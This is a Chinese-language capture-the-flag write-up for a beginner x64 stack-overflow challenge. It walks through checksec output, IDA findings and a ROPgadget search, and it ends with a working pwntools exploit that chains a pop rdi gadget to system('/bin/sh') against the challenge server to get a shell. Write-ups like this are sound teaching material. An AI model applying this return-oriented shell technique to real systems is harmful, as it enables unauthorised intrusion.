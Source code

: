 ```yaml
---
title: 基础栈溢出ret2text 组合函数
layout: doc
---
```

[[toc]]

> 64位寄存器8个字节，传参是寄存器+栈，rdi,rsi,rdx,rcx,r8,r9按顺序依次

## 基础检查
> 本例题是PolarD&N的基础入门pwn题 x64
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file x64                                            
x64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3497b5907db0d7099f07ea1f7b3ee9ef6761c412, not stripped
                                                                                                       
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=x64 
[*] '/home/kali/win/Downloads/x64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
64位小端序，没有保护

## IDA反编译源码
![alt text](image-5.png)

![alt text](image-6.png)

没有可供直接利用的getshell函数，因此需要自己构造
溢出函数是read 且缓冲区大小是0x80h
摁下shift+F12查看字符串

![alt text](image-7.png)
> 0000000000601060

存在/bin/sh 字符串及其地址，寻找system函数地址

![alt text](image-8.png)
> 0000000000400560


## 传参/bin/sh给system
### 使用ROPgadget找到rdi传入参数
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary x64 --only "pop|ret" | grep "rdi"
0x00000000004007e3 : pop rdi ; ret
```
为什么是 pop rdi；ret
?
pop 是弹出栈上的值给rdi 也就是 rdi被赋值

而ret就是把 弹出栈上的值给rip 导致程序的执行跳转到栈上的某个地址

**而之前的直接填入函数地址而是因为他的位置就在函数调用结束后的返回地址，做了一个覆盖**

64位函数调用先用寄存器传参数 rdi,rsi,rdx,rcx,r8,r9按顺序依次


## 编写exp脚本
```py
from pwn import *
context(os="linux", arch='amd64')
# io = process('./x64')
io = remote("120.46.59.242",2115)

padding = 0x80 + 8 # rbp

system_addr = 0x400560
sh_addr = 0x601060

rdi_ret = 0x00000000004007e3

payload = b'a' * padding + p64(rdi_ret) + p64(sh_addr) + p64(system_addr)

io.sendline(payload)
io.interactive()
```
**为什么顺序是 a*padding; pop rdi;ret sh_addr; system_addr;**
- **先填充缓冲区覆盖当前函数的返回地址位pop rdi;ret 这里**
- **当执行pop rdi的时候，会从栈里面取走sh_addr，这时，栈里只剩system_addr;**
- **此时剩ret指令 （pop rip） 正好将rip指向system函数，完成跳转**
> 建议自己调试查看栈空间内容即可理解

> 参考
> https://blog.csdn.net/qq_31343581/article/details/119996405